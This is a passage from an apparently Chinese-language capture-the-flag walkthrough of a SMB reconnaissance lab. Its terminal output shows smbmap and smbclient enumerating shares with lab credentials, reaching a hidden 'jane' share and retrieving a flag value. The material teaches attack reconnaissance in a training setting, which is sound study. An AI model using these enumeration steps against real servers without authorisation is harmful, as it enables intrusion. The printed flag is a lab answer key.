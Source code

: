 `nancy`

```
root@attackdefense:~# smbmap -u admin -p password1 -H 192.121.181.3
[+] Finding open SMB ports....
[+] User SMB session establishd on 192.121.181.3...
[+] IP: 192.121.181.3:445       Name: target-1                                          
        Disk                                                    Permissions
        ----                                                    -----------
        shawn                                                   READ, WRITE
        nancy                                                   READ ONLY
        admin                                                   READ, WRITE
        IPC$                                                    NO ACCESS
```

Is share “jane” browseable? Use credentials obtained from the 1st question.

`no`

```
root@attackdefense:~# smbclient -L 192.121.181.3 -U jane
Enter WORKGROUP\jane's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        shawn           Disk      
        nancy           Disk      
        admin           Disk      
        IPC$            IPC       IPC Service (brute.samba.recon.lab)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        RECONLABS
```

尽管jane共享不可浏览，但是是存在的。

```
root@attackdefense:~# smbclient //192.121.181.3/jane -U jane
Enter WORKGROUP\jane's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  logs                                D        0  Tue Nov 27 19:25:12 2018
  flag                                D        0  Tue Nov 27 19:25:12 2018
  admin                               D        0  Tue Nov 27 19:25:12 2018

                1981094964 blocks of size 1024. 97279524 blocks available
smb: \> cd flag\
smb: \flag\> ls
  .                                   D        0  Tue Nov 27 19:25:12 2018
  ..                                  D        0  Tue Nov 27 19:25:12 2018
  flag                                N       33  Tue Nov 27 19:25:12 2018

                1981094964 blocks of size 1024. 97279520 blocks available
smb: \flag\> get flag 
getting file \flag\flag of size 33 as flag (32.2 KiloBytes/sec) (average 32.2 KiloBytes/sec)
smb: \flag\> exit
root@attackdefense:~# ls
README  flag  tools  wordlists
root@attackdefense:~# cat flag 
16cb5a2bebf654439291fc9b73b0a6d0
```